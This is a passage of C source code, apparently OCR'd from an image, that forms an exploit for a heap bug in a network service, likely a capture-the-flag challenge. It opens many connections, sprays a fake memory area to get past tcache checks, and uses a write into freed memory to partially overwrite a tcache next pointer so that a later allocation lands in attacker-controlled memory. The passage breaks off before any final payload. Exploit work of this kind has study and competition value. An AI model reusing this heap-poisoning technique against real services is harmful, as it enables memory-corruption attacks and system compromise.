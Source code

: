 ```c
}

void readall(int fd, char *buf, size_t len) {
    size_t toread = len;
    while (toread) {
        ssize_t readden = read(fd, buf, toread);
        if (readden <= 0) {
            puts("read failure");
            exit(0);
        }
        toread -= readden;
    }
}

int main() {
    unsigned i;
    int conns[16];
    char *chunk = malloc(0x10000);

    // open connections
    for (i = 0; i < 16; i++) {
        conns[i] = conn();
        yield();
    }

    // fake 0x10000 area, fill with 0x31 to bypass some tcache checks later on
    for (i = 1; i < 0x10000u / 8; i+=2) {
        ((size_t*)chunk)[i] = 0x31;
    }
    writeall(conns[0], chunk, 0x10000 - 1);
    yield();

    // fill up remaining chunks 1 to 9
    for (i = 1; i < 9; i++) {
        writeall(conns[i], chunk, 0x10000u >> i);
        yield();
    }

    // allocate 3 0x30 chunks, A chunk right behind the 0x10000 area
    write(conns[13], "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", 0x20);
    yield();
    write(conns[14], "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB", 0x20);
    write(conns[15], "CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC", 0x20);
    yield();

    // close A buffer, places pointer to it in tcache freelist head
    close(conns[13]);
    yield();

    // bug: free B, and auf write two nullbytes into free'd B memory.
    // partially overwrites tcaches next pointer pointing to A.
    write(conns[15], "\0", 1);
    close(conns[14]);
    yield();

    // allocate two 0x30 chunks, Y is likely to be placed inside the 0x10000 area
    conns[13] = conn();
    conns[14] = conn();
    write(conns[13], "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX", 0x20);
    yield();
    write(conns[14], "YYYYYYYYYYYYYYYYYYYYYYYYYYYYYYYY", 0x20);
    yield();

```